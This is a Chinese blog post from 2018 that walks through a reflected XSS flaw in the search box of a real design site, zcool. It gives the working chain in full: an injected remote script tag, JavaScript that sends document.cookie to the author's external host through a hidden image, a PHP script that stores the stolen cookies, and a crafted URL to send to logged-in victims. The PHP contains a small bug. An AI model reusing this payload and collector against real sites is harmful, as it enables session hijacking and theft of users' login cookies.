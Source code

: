 ```yaml
---
layout: post
title: 一个危险的XSS案例——轻松拿到登录用户的cookie
date: 2018-06-04
categories: blog
tags: [XSS漏洞实例,渗透]
description: 。
---
```


# 找到XSS漏洞
本着学习交流的目的，用颤巍巍的手指在站酷的作品搜索拦里输下了如下代码
```javascript
<script>alert(1)</script>

```
后按下了回车（http://www.zcool.com，chrome浏览器下访问）

![photo](http://images.cnitblog.com/blog/154088/201306/06125053-5a4d503ee97c423188df05a6b5e82f27.jpg)

内心一阵失落，并没有预期中那样弹出个框来，叹了口气。但是，毕竟是个不轻言放弃的人，于是想了：chrome浏览器的安全机制是比较强大的，莫非是浏览器做了什么事情？

于是F12打开控制台，果然~~好吧，输给chrome了。

![photo](http://images.cnitblog.com/blog/154088/201306/06125106-e06f115eb4dc4472b48b4f14c283e09f.jpg)

既然如此，其他浏览器呢？一向挺喜欢freifox浏览器的，前端工作人员嘛，于是firefox毫不犹豫成了第二个试验的对象。然后~~然后~~congratulations！！


![photo](http://images.cnitblog.com/blog/154088/201306/06125115-2fad8a95df8f45ff898732485aab8b04.jpg)

# 进一步利用XSS漏洞

虽然内容有一些鸡冻，但仅仅找到一个XSS漏洞显然无法满足一个充满求知欲望的前端攻城狮，于是继续想：是不是可以利用它来做更多事情呢？
 
首先分析了下站酷的页面表现神马的，发现它是将用户输入脚本直接输出到页面，那就好办了，果断输入如下内容：

```javascript
<script src="http://saintcoder.duapp.com/joke/joke.js"></script>

```
于是站酷华丽丽地就加载了一段joke.js（只是恶作剧性质的脚本），joke.js里面的代码也很简单，创建一个img标签，将它的src属性指向我预先写好的一个脚本joke.php，这里关键的一点是：将页面的cookie最为参数附加到url后面

```javascript  
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://saintcoder.duapp.com/joke/joke.php?joke='+encodeURIComponent(document.cookie);
```

然后呢，joke.php里也是相当简单，解析请求里面的joke参数（即用户的cookie），然后。。。然后偷偷保留起来别有他用~~

```javascript
复制代码
<?php
    @ini_set('display_errors',1);
    $str = $_GET['joke'];
    $filePath = "joke.php";

    if(is_writable($filePath)==false){
         echo "can't write";
    }else{
          $handler = fopen(filePath, "a");
          fwrite($handler, $str);
          fclose($handler);
    }
?>
```

将下面的地址发送给其他用户
```javascript
http://www.zcool.com.cn/tosearch.do?page=0&world=%3Cscript%20src=%22http://saintcoder.duapp.com/joke/joke.js%22%3E%3C/script%3E

```

如果当时用户登录效果更佳

